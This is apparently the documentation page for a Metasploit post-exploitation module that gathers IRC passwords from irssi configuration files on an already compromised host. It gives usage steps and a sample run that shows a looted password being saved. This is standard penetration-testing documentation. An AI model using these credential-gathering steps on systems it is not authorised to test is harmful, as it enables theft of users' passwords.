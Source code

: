 ## Vulnerable Application

[irssi](https://irssi.org/) an IRC and chat client.

This module was successfully tested against:

- OSX 10.10.5 and IRSSI version 0.8.19

## Verification Steps

  1. Get a `shell` or `meterpreter` session on some host.
  2. Do: ```use post/multi/gather/irssi_creds```
  3. Do: ```set SESSION [SESSION_ID]```, replacing ```[SESSION_ID]``` with the session number you wish to run this one.
  4. Do: ```run```
  5. If the system has readable configuration files containing irc passwords, they will be printed out.

## Options

  None.

## Scenarios

```
msf post(irssi_creds) > run

[*] Finding ~/.irssi/config
[*] Looting 1 files
[+] Found a IRC password(s): chubbybunnies
[+] IRC password(s) stored in /Users/[REDACTED]/.msf/loot/20170405005410_default_[REDACTED]_irc.password_744582.txt
[*] Post module execution completed
```
